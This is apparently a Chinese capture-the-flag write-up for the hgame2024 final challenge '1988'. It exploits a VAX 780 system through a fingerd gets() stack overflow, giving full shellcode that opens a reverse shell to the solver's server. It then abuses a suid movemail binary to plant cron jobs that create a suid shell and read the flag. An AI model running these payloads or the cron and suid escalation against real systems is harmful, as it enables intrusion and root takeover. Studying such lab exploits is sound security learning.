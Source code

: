 ```yaml
---
title: hgame2024 final - 1988
date: 2024/3/23 17:56:00
updated: 2024/8/26 17:18:00
tags:
    - vax780
excerpt: 利用vax780的栈溢出和suid权限，通过定时任务实现RCE并获取flag。
---
```


{% note %}
Welcome to 1988, please read README.md carefully
{% endnote %}

用上了vax780的远古老题，并给出了详细的wp，以下是我粗略的解释

## 解题思路

首先利用`fingerd`的`gets`打栈溢出，执行任意shellcode，作者写的是反弹shell

> 没有服务器，frp还配不好，紧急借了台服务器

然后`movemail`设有suid位，通过修改定时任务达到rce的目的，创建一个有suid位的`sh`，
接着`cat /flag`即可

## EXPLOIT

**Command on remote server** :
```sh
nc -lvvp 4444
```

**Command on local machine** :
```sh
perl -e 'print "\x01"x303 . "\xdd\x00\xdd\x01\xdd\x02\xdd\x03\xd0\x5e\x5c\xbc\x8f\x61\x00\xd0\x50\x5a\xdd\x00\xdd\x00\xdd\x8f{YOUR REMOTE SERVER IP}\xdd\x8f\x02\x00\x11\x5c\xd0\x5e\x5b\xdd\x10\xdd\x5b\xdd\x5a\xdd\x03\xd0\x5e\x5c\xbc\x8f\x62\x00\xd0\x00\x5b\xdd\x5b\xdd\x5a\xdd\x02\xd0\x5e\x5c\xbc\x8f\x5a\x00\xf3\x02\x5b\xef\xdd\x8f\x2f\x73\x68\x00\xdd\x8f\x2f\x62\x69\x6e\xd0\x5e\x5b\xdd\x00\xdd\x00\xdd\x5b\xdd\x03\xd0\x5e\x5c\xbc\x3b" . "A"x109 . "\x00"x16 . "\x38\xea\xff\x7f"' | ncat -v $TARGET_IP 79
```
注意用自己服务器的ip替换`{YOUR REMOTE SERVER IP}`字段，保持字节的表达形式

**Commands on remote server** :
```sh
(umask 0 && /etc/movemail /dev/null /usr/lib/crontab.local)
ls -l /usr/lib/crontab.local
(echo "* * * * * root cp /bin/sh /tmp && chmod u+s /tmp/sh"; echo  "* * * * * root rm -f /usr/lib/crontab.local") > /usr/lib/crontab.local
cat /usr/lib/crontab.local
```
稍等一会儿等待定时任务执行
```sh
ls -l /tmp/sh
/tmp/sh
cat /flag
```

成功拿到flag

## 后记

docker起不了，本地的环境久久无法正常工作，于是我决定直接打远程，所幸数据和原文都对的上，
作者给的脚本不需要多少修改就可以直接打通

同时这道题是对pwn一词的诠释，让我第一次见到了二进制利用在现实中的应用

## 参考

[解题所需的blog](https://www.rapid7.com/blog/post/2019/01/02/the-ghost-of-exploits-past-a-deep-dive-into-the-morris-worm/)
